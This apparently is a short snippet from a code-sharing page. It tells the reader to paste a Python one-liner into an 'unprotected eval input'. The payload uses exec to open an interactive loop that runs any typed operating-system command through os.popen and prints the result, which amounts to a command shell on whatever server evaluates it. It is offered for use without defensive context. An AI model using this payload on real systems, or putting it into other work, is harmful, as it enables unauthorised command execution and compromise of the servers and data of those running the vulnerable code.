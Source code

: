 




Copy and paste this into an unprotected eval input
```python
exec('import os\nwhile True:\n\tprint(os.popen(input(">")).read())')
```
